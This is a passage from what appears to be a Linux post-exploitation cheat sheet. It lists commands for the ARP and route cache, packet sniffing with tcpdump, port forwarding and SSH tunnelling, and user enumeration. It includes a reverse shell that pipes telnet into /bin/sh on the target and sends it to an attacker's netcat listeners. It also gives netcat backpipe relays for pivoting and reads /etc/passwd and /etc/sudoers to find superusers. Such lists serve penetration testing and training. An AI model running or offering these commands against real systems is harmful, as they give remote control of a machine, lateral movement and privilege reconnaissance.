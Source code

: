 
Whats cached? IP and/or MAC addresses
```
arp -e
route
/sbin/route -nee
```


Is packet sniffing possible? What can be seen? Listen to live traffic
```
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```



Have you got a shell? Can you interact with the system?
```
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```


Is port forwarding possible? Redirect and interact with traffic from another view
```
# rinetd
# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

# fpipe
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```


Is tunnelling possible? Send commands locally, remotely
```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```


## Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
```
id
who
w
last
cat /etc/passwd | cut -d:    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
```
